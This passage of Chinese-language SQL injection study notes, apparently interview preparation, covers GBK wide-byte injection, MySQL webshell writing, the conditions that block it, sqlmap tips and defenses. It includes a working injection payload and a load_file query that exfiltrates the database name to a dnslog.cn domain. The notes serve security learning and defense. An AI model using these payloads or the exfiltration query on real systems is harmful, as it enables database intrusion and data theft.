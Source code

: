 payload: %df’+or+1=1#

%df' 被十六进制编码变为 %df%5c%27，而 df5c 被 gbk 编码变为汉字“运”，从而单引号 %27 被解析。

#### mysql 写 shell 的方法

（1）导出函数写 shell。一句话导出或者创建表导出，可以用函数 outfile 和 dumpfile。

（2）日志文件写 shell。把日志设置成木马文件，将 shell 写进日志。

#### mysql 无法写 shell 的原因

（1）打开 mysql 配置文件 My.ini 设置 secure_file_priv=null 可以禁止导入导出。与之相对，如果设置为 / 或者置空则无限制，如果设置为某个目录则在该目录下可以导入导出。从防守方的角度来看设置为 null 安全，可以用命令 show global variables like '%secure%' 快速检查配置。

（2）绝对路径不正确则无法写 shell。从防守方的角度来看不泄露绝对路径可以防止 mysql 写 shell。

（3）权限不足导致无法写 shell。没有 file 读写权限或者无权限开启日志记录。

（4）在 PHP 设置中禁用魔术引号，即开启 GPC，对引号进行转义，则无法写 shell。

（5）站库分离导致无法连接 mysql，则无法写 shell。

#### 如何利用 dns 外带 sql 注入结果

load_file 函数的作用是读取远程文件，可以解析 url。攻击者可以将 sql 注入的结果拼接到域名，在 dnslog 平台看到结果。

    select load_file(concat('file:\\\\',(select database()),'.qx7x7i.dnslog.cn'));

条件：secure_file_priv 选项必须为空，不能为null；对方的主机必须开放 445 端口。

#### sqlmap 扫描 https 网站无法访问怎么办

（1）添加 --force-ssl 参数；（2）走本地代理端口。

#### mysql 通常采取哪种加密方式

sha1，md5

#### 防御 sql 注入

（1）后端代码层面：

正则过滤：不传输 payload

预编译：不解析 payload

转义：改写 payload 令其失效

权限控制：就算解析 payload 语句攻击者也没有读写权限，攻击者得不到任何信息和权限。

（2）网络传输层面：配置 waf 进行拦截，不把带有 payload 的语句传输到后端。

#### order by 能预编译吗

不能，只能加 waf

### xss

#### xss 的原理
